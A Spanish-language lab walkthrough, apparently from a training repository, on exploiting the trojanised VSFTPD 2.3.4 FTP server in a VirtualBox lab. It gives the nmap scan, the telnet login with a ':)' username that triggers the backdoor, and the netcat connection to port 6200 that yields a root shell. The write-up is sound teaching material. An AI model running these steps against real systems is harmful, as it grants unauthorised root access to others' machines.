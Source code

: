 ### 🔧 Servicio: VSFTPD (Very Secure FTP Daemon).

# 🎯 Objetivo: 
Ganar acceso remoto a través de un backdoor existente en una versión vulnerable del servicio FTP.

# 🔍 ¿Qué aprenderás?.

- Enumerar un servicio FTP.
- Reconocer banner/versiones comprometidas.
- Entender cómo se creó un backdoor en VSFTPD 2.3.4.
- Lanzar una conexión "trampa" que abre una shell remota.

Nos introduciremos al uso de **netcat**, detección de **backdoors intencionados** binarios, explotación que resulta en **shell directa como root**.

# 🧠 1. ¿Qué es VSFTPD 2.3.4 Backdoor?.

En julio de 2011, alguien inyectó código malicioso en la versión 2.3.4 del popular servidor FTP “Very Secure FTP Daemon” y la distribuyó como si fuese legítima.

- Esta versión no viene con vulnerabilidades por defecto, sino que fue troyanizada intencionalmente.
- Si un atacante se conecta con un usuario que contenga :), se abre una shell de root.
- No requiere autenticación ni interacción con el sistema, solo el trigger adecuado.

# 🛠️ 2. Pasos para la explotación de VSFTPD.

## 🔎 Paso 1: Escanear con Nmap.

```bash
nmap -sV -p 21 192.168.56.102
```

Veremos como resultado:

| Puerto | Estado | Servicio | Versión     |
|--------|--------|----------|-------------|
| 21/tcp | open   | ftp      | vsftpd 2.3.4 |

**MAC Address:** 08:00:27:63:DC:BA (PCS Systemtechnik / Oracle VirtualBox virtual NIC)  
**Service Info:** OS: Unix

## 💥 Paso 2: Detectar el backdoor.

El **trigger** del backdoor es coenctarse con cualquier nombre de usuario que contenga :).

Para ello, probamos con:

```bash
telnet 192.168.56.102 21
```

Una vez conectado:

```txt
220 (vsFTPd 2.3.4)
USER test:)
PASS test
```
Y, entonces, la coenxión debe cerrarse de inmediato, indicando que el backdoor ha sido activado.

## 🚪 Paso 3: Conectarnos al puerto 6200.

Comprobamos si se ha abierto una shell en el puerto 6200:

```bash
nc 192.168.56.102 6200
```

En este punto, nos encontramos con una shell de root. Probamos ejecutando:

```bash
id
whoami
hostname
```

# 🧠 3. Explicación técnica del backdoor.

- El binario de esta versión troyanizada de VSFTPD contenía un código oculto que abría un socket en el puerto 6200.
- Cuando alguien intentaba iniciar sesión con un nombre de usuario que contenía :), se disparaba la ejecución del backdoor.
- El puerto 6200 no está anunciado, ni abierto inicialmente.
- Una vez activado, entrega una shell interactiva como root, sin necesidad de credenciales.


